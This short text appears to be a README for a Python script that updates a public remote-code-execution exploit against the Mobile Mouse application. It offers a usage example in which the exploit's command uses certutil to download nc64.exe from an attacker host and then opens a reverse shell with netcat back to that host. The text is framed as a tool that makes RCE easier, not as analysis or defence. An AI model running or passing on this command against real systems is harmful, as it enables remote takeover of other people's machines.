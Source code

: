 This python script is an update to Chokri Hammedi's RCE found here: https://www.exploit-db.com/exploits/51010
The updated script makes RCE easier.
Usage example: python3 mobilemouse.py --target $IP --cmd "certutil -urlcache -split -f http://LHOST/nc64.exe C:\Windows\Tasks\nc64.exe && C:\Windows\Tasks\nc64.exe -e cmd.exe LHOST LPORT"
